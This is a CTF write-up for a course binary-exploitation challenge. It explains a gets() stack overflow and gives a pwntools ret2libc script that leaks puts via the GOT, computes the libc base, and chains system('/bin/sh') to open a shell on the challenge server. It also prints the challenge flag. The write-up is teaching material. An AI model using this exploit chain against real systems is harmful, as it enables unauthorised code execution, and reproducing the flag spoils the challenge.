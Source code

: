 ## Improper Code

[improper](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/improper)  
[improper.c](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/improper.c)  

> This challenge was solved by referring to a similar challenge described in this [YouTube Video](https://www.youtube.com/watch?v=i5-cWI_HV8o). The exploit script is also adapted from the video. The following is my attempt to summarize the key takeaways from the video in the context of this challenge.

> We first run the `checksec` command to check the security bits of our binary

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/checksec.png)

> We can note that `NX` bit is enabled, which denotes not executable. Hence we cannot execute off the stack using shellcode.

> Additionally, Position Independent Executable (`PIE`) is disabled. This will prove useful later on when we talk about the [Global Offset Table](https://en.wikipedia.org/wiki/Global_Offset_Table).

```C
int main() {
  ...
  ...

  char text[64];
  gets(text);

  ...
}
```

> From the code, we can see an obvious buffer overflow vulnerability due to the usage of unsafe `gets()`. However, there are no other functions we can return to, and also we cannot run arbitrary shellcode. Here comes the concept of [Return Oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming).

> Return Oriented Programming (ROP) is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as executable space protection and code signing.

> In this technique, an attacker gains control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences that are already present in the machine's memory, called "gadgets". We can find the ROP gadgets in a binary file using the `ROPgadget` command.

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/ropgadget.png)

> Each gadget typically ends in a return instruction (ret) and is located in a subroutine within the existing program and/or shared library code. Chained together, these gadgets allow an attacker to perform arbitrary operations on a machine employing defenses that thwart simpler attacks.

> The following shows the number of bytes of all declared variables in the main function

```C
int main() {
  ...
  char a[10] = "hostn";
  char b[70] = "You want this power right?";
  char text[64];
  ...
}
```

> The memory stack layout looks something like this. The stack grows upwards whereas our input to text will be overflowed from top to bottom.

```
text 64
b    70
a    10
RBP  8
RA   8
```

> Thus, to overwrite the return address (RA) and get a segmentation fault, the offset calculated is 64+70+10+8 = `152`.

> We don't know where libc is, so we need to do a memory leak. We have access to `puts()` which prints out something for us to see. Thus, we can call `elf.symbols["puts"]` to give us the address of functions like `gets()` or even `puts()`. What we are doing here is leaking libc address from the [Global Offset Table](https://en.wikipedia.org/wiki/Global_Offset_Table). The Global Offset Table (GOT) is easy to leak with a call to `puts()`; this is only possible because PIE is disabled.

> The pwntools library have this handy ROP function where we can pass in our binary to get a ROP object that we can work with, which we can subsequently use methods such as `rop.call()`

> Now, we can log the address of puts, and lookup where it might be in libc, which we can find in the [libc database](libc.blukat.me)

```python
from pwn import *

context.arch = "amd64"
offset = 152

elf = ELF("./improper")
p = remote('cs2107-ctfd-i.comp.nus.edu.sg', 4009)

rop = ROP(elf)
rop.call(elf.symbols["puts"], [elf.got["puts"]])
rop.call(elf.symbols["main"])

for i in range(7):
    print(p.recvuntil(b"\n"))

payload = [
        b"A"*offset,
        rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

puts = u64(p.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info(f"puts found at {hex(puts)}")
```

```
puts found at 0x7f59440915a0
```

> Now that we have the value `0x7f59440915a0`, we can enter it in the libc database, and download the correct version. The binary is 64-bit and the most common architecture is amd64 so we will choose `libc6_2.31-0ubuntu9_amd64.so`

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/libcdatabase.png)

> Now that we have found libc, we first need to put the base address for the runtime of the program in the same context of our current rendition of libc. We need to tell libc to map the base address to what is currently being used and ran with that program. So, because we found the puts address from the currently running binary, we can determine the libc address using `libc.address = puts - libc.symbols["puts"]`

> We will then build another rop chain with `system` and `/bin/sh` to spawn a shell

```python
...
...

libc = ELF("libc6_2.31-0ubuntu9_amd64.so")
libc.address = puts - libc.symbols["puts"]
log.info(f"libc base address determined {hex(libc.address)}")

rop = ROP(libc)
rop.call("puts", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("system", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("exit")

payload = [
        b"A"*offset,
        rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)
p.interactive()
```

> The full exploit script can be found at [exploit.py](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/exploit.py)

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Hard/improper-code/Solved.png)

`CS2107{pR0P3rLy_dr0P_7H4t_1mPRoP3rnE5s}`
